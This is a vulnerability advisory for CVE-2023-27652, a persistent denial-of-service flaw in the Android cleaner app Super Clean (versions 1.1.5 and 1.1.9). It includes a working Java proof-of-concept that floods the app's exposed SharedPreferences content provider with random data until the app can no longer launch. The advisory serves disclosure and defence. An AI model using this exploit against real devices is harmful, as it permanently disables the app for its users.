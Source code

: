 ## Denial of Service exists in Super Clean（CVE-2023-27652）

Vendor：Ego Studio(http://www.egostudiogroup.com/)

Affected product：Super Clean(com.egostudio.clean) 

Version：1.1.5 1.1.9

Download link：https://apkpure.com/cn/super-clean-phone-cleaner/com.egostudio.clean/download

Description of the vulnerability for use in the CVE：An issue found in Ego Studio SuperClean v.1.1.9 and v.1.1.5 allows an attacker to cause a denial of service via the SharedPreference files.

Additional information：Super Clean is a phone cleaner app for cleaning junk files and optimizing memory usage, it also provides various security-related features such as Wifi security check, app lock, etc. Upon opening the app, it loads the SharedPreference files into memory. If a malicious app injects a large amount of data into these files, the Super Clean app will load excessive data into memory, which can trigger an OOM error and cause the app to crash. Even worse, simply restarting the app will not fix the security issue, as the injected data is persistent in the SharedPreference files. In practice, this means that the Super Clean app becomes unable to launch successfully.

poc：

```java
public void attack(){
    ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
    Uri uri = Uri.parse("content://com.egostudio.clean.boost.main.SharedPrefProvider");
    while (true) {
        ContentValues contentValues = new ContentValues();
        contentValues.put("file_name","__default__");
        contentValues.put("type",4);
        contentValues.put("key",randomString);
        contentValues.put("value",randomString);
        contentResolver.insert(uri,contentValues);
    }
}
```



